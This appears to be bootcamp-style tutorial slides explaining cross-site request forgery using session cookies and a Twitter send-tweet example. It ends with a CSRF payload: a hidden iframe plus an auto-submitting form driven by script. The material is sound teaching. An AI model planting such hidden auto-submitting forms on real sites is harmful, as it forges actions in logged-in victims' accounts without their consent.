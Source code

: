 Browser that you are using stores session cookies when you log into a website

The session cookies are sent every time you communicate with the site

This allows you to access your confidential information and perform actions specific to you

---

### SIMPLIFIED EXAMPLE: Submitting a form ...

```HTML 
<form method='POST' action='https://twitter.com/send_tweet'>
    <input type="text" name='tweet_content'
    value='@founderscoders rocks!'>
    <input type='submit' value='Send Tweet'>
<form>

```

**_Disclaimer :wink:: Twitter is not actually vulnerable in this way (I think!)_**

---

### How can this hurt me? :worried: 

- A rouge site, not just twitter, could host the same simple HTML form 

- This could be used to POST requests to twitter, including content of the rogue sites choosing


```HTML 
<form method='POST' action='https://twitter.com/send_tweet'>
    <input type="text" name='tweet_content'
    value='Follow @bootcampEvil on Twitter!'>
    <input type='submit' value='Submit'>
<form>

```

---

### Why would I send such a thing!?! :astonished:

When hosting a similar form, an attacker could make the form **_hidden_** & **_autosubmitted_**



```html
<iframe style='display:none" name="csrf-frame"></iframe>

<form method='POST' action='https://twitter.com/send_tweet' target="csrf-frame" id="csrf-form">
    <input type="text" name='tweet_content'
    value='Follow @bootcampEvil on Twitter!'>
    <input type='submit' value='Submit'>
<form>

<script>document.getElementById("csrf-form").submit()</script>
```

